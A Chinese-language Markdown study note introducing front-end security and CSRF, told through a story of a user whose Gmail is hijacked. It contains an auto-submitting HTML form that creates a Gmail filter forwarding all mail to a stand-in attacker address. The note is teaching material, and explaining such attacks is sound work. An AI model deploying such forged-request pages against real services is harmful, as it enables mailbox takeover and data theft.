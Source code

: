 ```yaml
---
aliases: []
tags: ['Security','CSRF','date/2022-11','year/2022','month/11']
date: 2022-11-21-星期一 15:31:55
update: 2022-12-21-星期三 17:37:13
---
```


# 背景

随着互联网的高速发展，信息安全问题已经成为企业最为关注的焦点之一，而前端又是引发企业安全问题的高危据点。在移动互联网时代，前端人员除了传统的 XSS、CSRF 等安全问题之外，又时常遭遇网络劫持、非法调用 Hybrid API 等新型安全问题。当然，浏览器自身也在不断在进化和发展，不断引入 CSP、Same-Site Cookies 等新技术来增强安全性，但是仍存在很多潜在的威胁，这需要前端技术人员不断进行“查漏补缺 "。

# CSRF 攻击

## CSRF 漏洞的发生

相比 XSS，CSRF 的名气似乎并不是那么大，很多人都认为 CSRF“不那么有破坏性 "。真的是这样吗？

接下来有请小明出场~~

### 小明的悲惨遭遇

这一天，小明同学百无聊赖地刷着 Gmail 邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：

> 甩卖比特币，一个只要 998！！

聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生……

在这平静的外表之下，黑客的攻击已然得手。小明的 Gmail 中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到 haker@hackermail\.com。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了 $650 的赎回价码，小明才开始觉得不太对劲。

小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页 " 的源码：

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data">
    <input type="hidden" name="cf2_emc" value="true"/>
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/>
    .....
    <input type="hidden" name="irf" value="on"/>
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/>
</form>
<script>
    document.forms[0].submit()
</script>
```

> 这个页面只要打开，就会向 Gmail 发送一个 post 请求。请求中，执行了“Create Filter" 命令，将所有的邮件，转发到“hacker@hakermail\.com"。
>
> 小明由于刚刚就登陆了 Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail 的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器。
>
> 黑客可以查看小明的所有邮件，包括邮件里的域名验证码等隐私信息。拿到验证码之后，黑客就可以要求域名服务商把域名重置给自己。
